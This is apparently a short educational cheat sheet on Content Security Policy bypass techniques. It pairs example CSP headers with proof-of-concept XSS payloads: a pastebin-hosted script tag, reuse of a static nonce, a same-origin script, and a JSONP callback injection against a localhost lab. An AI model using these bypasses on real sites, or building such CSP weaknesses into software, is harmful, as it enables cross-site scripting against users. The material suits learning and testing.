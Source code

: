 # Content Security Policy (CSP) Bypass

## Pastebin CSP

```http
Content-Security-Policy: script-src 'self' https://pastebin.com  example.com code.jquery.com https://ssl.google-analytics.com ;
```

https://pastebin.com seems to be an valid CSP.

```js
<script src="https://pastebin.com/raw/R570EE00"></script>
```

## Invalid CSP Keyword
```http
Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=
```

nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA= seems to be an invalid CSP keyword.

```js
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>
```

## SELF

```js
Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=
Content-Security-Policy: script-src 'self' https://pastebin.com  example.com code.jquery.com https://ssl.google-analytics.com ;
```

'self' can be problematic if you host JSONP, Angular or user uploaded files.

```js
poc.js:
alert(document.domain);

<script src="poc.js"></script>
```

## Self-insecure JSONP implementation

```js
Content-Security-Policy: script-src 'self';
```

'self' can be problematic if you host JSONP

#### POC:
http://localhost/vulnerabilities/csp/source/jsonp.php?callback=alert(document.domain)

## BESTTT :)
* https://csp-evaluator.withgoogle.com/
* https://github.com/bhaveshk90/Content-Security-Policy-CSP-Bypass-Techniques
